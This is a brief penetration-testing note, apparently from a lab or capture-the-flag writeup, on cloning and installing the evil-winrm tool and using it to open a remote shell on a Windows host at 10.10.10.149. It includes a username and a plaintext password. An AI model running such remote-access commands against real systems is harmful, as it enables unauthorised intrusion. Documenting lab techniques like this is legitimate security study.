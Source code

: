 ```yaml
---
description: Getting a shell from a Windows machine.
---
```


# evil-winrm

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

```text
git clone https://github.com/Hackplayers/evil-winrm
```

```text
cd evil-winrm

for i in $(cat Gemfile | tail -4 | cut -d ' ' -f 2 | tr -d "'"); do gem install $i; done; echo -e "\n\n\nDONE"
```

With the right credentials, run the following to get a shell\(**putting password inside quotes because of special characters**\):

```text
ruby evil-rm.rb -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149
```

Full output:

![evil-winrm shell](.gitbook/assets/evilwinrm%20%281%29.png)



